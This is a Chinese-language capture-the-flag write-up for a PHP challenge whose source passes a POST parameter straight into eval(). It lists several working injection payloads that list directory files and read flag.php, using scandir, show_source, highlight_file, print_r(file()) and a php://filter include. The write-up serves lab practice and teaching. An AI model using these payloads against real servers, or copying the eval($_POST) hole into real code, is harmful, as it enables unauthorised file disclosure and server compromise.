









```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

分析源码

post提交参数c

eval执行


尝试system，passthru，exec，popen函数都失败


## 第一种

利用var_dump()输出

scandir()扫描目录

getcwd()获取当前目录

```
c=var_dump(scandir(getcwd()));
```



```
c=show_source(next(array_reverse(scandir(getcwd()))));
```



利用array_reverse()反转数组

利用next()指向flag.php

利用show_source()显示源码


### 其余函数做法

利用var_export()打印内容

```
c=var_export(scandir(getcwd()));
```



利用print_r()打印内容

```
c=print_r(scandir(getcwd()));
```




利用highlight_file()读取源码

```
c=highlight_file(next(array_reverse(scandir(getcwd()))));
```




利用print_r()结合file()读取源码

```
c=print_r(file(next(array_reverse(scandir(getcwd())))));
```




### 第三种

不过这里可以直接show_source()




由于未对字符串进行过滤，因此直接读文件就好了


### 第四种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```




